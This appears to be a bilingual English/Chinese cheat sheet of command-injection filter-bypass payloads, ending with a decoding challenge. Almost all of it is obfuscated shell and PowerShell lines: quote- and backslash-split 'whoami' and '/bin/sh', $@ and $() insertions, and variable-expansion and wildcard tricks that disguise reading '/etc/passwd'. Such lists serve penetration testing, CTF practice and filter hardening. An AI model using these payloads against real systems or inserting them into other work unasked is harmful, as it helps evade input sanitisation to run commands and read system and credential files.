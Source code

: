 ```
w'h'o'am'i
```

#### Bypass with double quote - 使用双引号绕过

```
w"h"o"am"i
```

#### Bypass with backslash and slash - 使用反斜杠和斜杠绕过

```
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@ - 使用$@字符绕过

```
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

### Bypass with $() - 使用$()字符绕过

```
who$()ami
who$(echo am)i
who`echo am`i
```

#### Bypass with variable expansion - 使用变量扩展绕过

```
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards - 使用通配符绕过

```
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Challenge - 挑战

基于前面的技巧，下面的命令是做什么的：

```
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}


# cat /etc/issue
```
